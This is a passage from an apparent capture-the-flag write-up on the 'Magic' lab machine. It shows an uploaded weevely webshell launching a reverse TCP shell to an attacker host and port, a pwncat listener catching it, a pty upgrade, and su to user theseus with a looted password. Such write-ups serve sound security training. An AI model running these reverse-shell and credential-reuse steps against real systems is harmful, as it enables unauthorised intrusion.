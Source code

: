 ```
www-data@ubuntu:/var/www/Magic/images/uploads $ 
```

The issue is that the webshell is removed a few seconds after being uploaded.
So we'll have to use a PHP dropper to get a rverse shell immediately.

We could craft one with `msfvenom` (from [Metasploit][msf]) but weevely have a
bunch of useful modules like this one:

```
www-data@ubuntu:/var/www/Magic/images/uploads $ :backdoor_reversetcp -h
usage: backdoor_reversetcp [-h] [-shell SHELL] [-no-autonnect] [-vector {netcat_bsd,netcat,python,devtcp,perl,ruby,telnet,python_pty}] lhost port

Execute a reverse TCP shell.

positional arguments:
  lhost                 Local host
  port                  Port to spawn

optional arguments:
  -h, --help            show this help message and exit
  -shell SHELL          Specify shell
  -no-autonnect         Skip autoconnect
  -vector {netcat_bsd,netcat,python,devtcp,perl,ruby,telnet,python_pty}
```

Note: for OSCP it's also good to know how to do without [Metasploit][msf].

I start a [pwncat] listener on my machine:

```
$ pwncat -l 8888
```

Re-uploaded my webshell, executed it and launched the reverse shell module:

```
weevely> :backdoor_reversetcp 10.10.15.18 8888
```

Nice, I have a true shell that I won't lost on my [pwncat][pwncat] listener:

```
$ pwncat -l 8888
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Privilege Escalation : www-data to theseus

We can just connect by re-using the credentials we looted during the SQLi.

```
$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@ubuntu:/var/www/Magic/images/uploads$ ls /home
theseus

www-data@ubuntu:/var/www/Magic/images/uploads$ su theseus
Password: Th3s3usW4sK1ng

theseus@ubuntu:/var/www/Magic/images/uploads$ id
uid=1000(theseus) gid=1000(theseus) groups=1000(theseus),100(users)
```
